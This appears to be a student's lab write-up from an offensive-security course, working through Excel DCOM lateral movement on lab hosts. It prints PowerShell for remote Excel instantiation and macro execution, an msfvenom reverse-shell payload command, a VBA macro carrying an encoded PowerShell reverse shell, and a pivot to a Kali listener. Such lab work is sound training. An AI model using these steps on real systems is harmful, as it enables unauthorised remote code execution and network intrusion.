








### 21.4.4.1 Exercises
#### 1. Repeat the exercise of launching Notepad using Excel and DCOM.

#### Discover the available methods for an object

1. On Win10, create an instance of the Excel objectcalled `$com`

   ```powershell
   $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.216.5"))
   ```

2. Create a new document in Excel, and create a macro with this code and save the Excel file in legacy format (97-2003 Workbook)

   ```vbscript
   Sub mymacro()
       Shell ("notepad.exe")
   End Sub
   ```

   

3. Copy the document to the remote computer.  This script works due to the assumption of Local Admin rights on the remote machine.

   ```powershell
   $LocalPath = "C:\Users\jeff_admin\Documents\myexcel.xls"
   $RemotePath = "\\172.16.216.5\c$\myexcel.xls"
   [System.IO.File]::Copy($LocalPath, $RemotePath, $True)
   ```

4. Create a Desktop folder for the SYSTEM account to satisfy Excel's profile requirement

   ```powershell
   # Create a var to make a Desktop folder for SYSTEM
   $Path = "\\172.16.216.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
   # Create the directory
   $temp = [system.io.directory]::createDirectory($Path)
   ```

5. Open the Excel document on the remote system using the `$com` object

   ```powershell
   $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
   ```

6. Call the run method of the `$com` object to run the macro

   ```powershell
   $com.Run("mymacro")
   ```

7. Logged into the machine to show notepad.exe running in the background:
   

#### 2. Improve the attack by replacing the VBA macro with a reverse shell connecting back to Netcat on your windows student VM.

1. Use msfvenom to construct the payload using the hta format, but our LHOST will be the Windows 10 client we are attacking from (the interface that connects to the network of our target in this case)

   ```powershell
   msfvenom -p windows/shell_reverse_tcp LHOST=172.16.216.10 LPORT=4444 -f hta-psh -o badfile.hta
   ```

2. Open the badfile.hta file and copied from `"powershell.exe` to the quote at the end of the 64-bit encoded payload (but not the `,0` at the end)
   

3. Use a Python script to split the string into smaller chunks to overcome the VB Script limitations.
   
   
4. Paste this variable construct into the macro and call the str as the command:

   ```vbscript
   Sub mymacro()
       Dim Str As String
   Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
       -----SNIPPED------
   Str = Str + "AYwBlAHMAcwBdADoAOgBTAHQAYQByAHQAKAAkAHMAKQA7AA=="
       CreateObject("Wscript.shell").Run Str
   End Sub
   ```

5. Upload updated Excel doc to the Server (had to kill the old Excel process on the Server first)

   ```powershell
   $LocalPath = "C:\Users\jeff_admin\Documents\myexcel.xls"
   $RemotePath = "\\172.16.216.5\c$\myexcel.xls"
   [System.IO.File]::Copy($LocalPath, $RemotePath, $True)
   ```

6. Start a netcat listener on Win10
   

7. Execute the Workbook Macro to get a reverse shell

   ```powershell
   $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.216.5"))
   $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
   $com.Run("mymacro")
   ```

   

#### 3. Set up a pivoting channel from the domain controller to your Kali machine and obtain a reverse shell.

1. Set up a netcat listener on Kali Linux
   

2. On Win10, used netsh to setup a local port forward from 4444 inbound to 8000 outbound to Kali.
   

3. Reran the Excel macro on the server to get a reverse shell forwarded to Linux

   ```powershell
   $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.216.5"))
   $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
   $com.Run("mymacro")
   ```

   

4. Celebrated that I got this right on my first try and didn't spend 3 hours on it.